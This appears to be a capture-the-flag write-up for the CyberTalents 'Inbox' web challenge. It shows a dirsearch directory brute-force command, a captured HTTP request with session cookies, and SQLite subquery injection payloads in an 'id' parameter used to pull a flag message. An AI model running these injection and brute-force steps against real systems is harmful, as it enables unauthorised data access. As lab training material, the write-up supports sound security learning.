 # Solve Inbox
#### https://cybertalents.com/challenges/web/Inbox

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

We found /data

![alt text](image-1.png)

### Analyze with burp
The request to view an email is sent to `show.php`

```http
POST /show.php HTTP/1.1
Host: wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0; PHPSESSID=a010hdbo5dll4mmqpvn6sj3bo5

id=21658
```
The response as json
```json
{"title":"Hi","msg":"Curabitur massa lacus, dapibus vel quam facilisis, tristique convallis metus. Integer euismod pulvinar aliquam."}
```
Try to cause error with `'` in the id parameter

We got error `Error : HY000 1` which is Encountering SQLite

### SQLI
We could in Injected only with Subqueries beacuse our input reflected in a main query

Try to dump the database tables but I get null.

Try id table:

`id=(select+id+from+sqlite_master+where+Title="Hi")`
![alt text](image-2.png)

Search for a message with title flag
`id=(select+id+from+sqlite_master+where+Title="flag")`
![alt text](image-3.png)

### Resources
[SQLite cheet sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

>Find More on ==> github.com/MedhatHassan 

